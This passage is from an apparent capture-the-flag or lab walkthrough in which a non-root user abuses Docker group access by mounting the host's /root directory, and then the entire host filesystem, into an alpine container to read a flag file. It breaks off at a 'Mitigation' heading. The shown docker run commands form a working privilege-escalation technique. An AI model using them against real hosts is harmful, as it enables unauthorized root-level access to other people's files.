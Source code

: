 Now we can use the `cat` command to read the contents of the test.txt file we created:

```bash
/mnt # cat test.txt
testing 123
```

Looks like that worked! 

Okay, we've validated that we can create a container using a non root user, and then mount a directory on the host server onto the actual container. We've also confirmed we can read the contents of a file stored in that directory. Now, let's exit the container, and create a new container, this time mounting the root user's directory so we can retrieve the flag.

To exit the container:

```bash
$ /mnt # exit
```

Confirm you're back on the host server by checking the hostname:

```bash
affix@ip-10-0-0-150:~$ echo $HOSTNAME
ip-10-0-0-150
```

Now we will repeat what we did above to create a container from the `alpine` image and mount the user's volume, but this time mounting the `/root` home directory instead of `/home/affix`:

```bash
affix@ip-10-0-0-150:~$ docker run -it -v /root:/mnt alpine sh
/ # echo $HOSTNAME
c08716be0cf9
```

There we go, we're in a new container, with a new ID which is set as the hostname.

Let's now go back to the `/mnt` directory in the container and have a look around:

```bash
/ # cd /mnt
/mnt # ls
CVE-2021-41773  flag.txt        the_flag
```

Looks like we're able to view the list of files. Now, let's read the contents of `flag.txt`:

```bash
/mnt # cat flag.txt
this is the flag
```

We can take this even further, and mount the entire host volume to the container:

```bash
affix@ip-10-0-0-150:~$ docker run -it -v /:/mnt alpine sh
```



## Mitigation
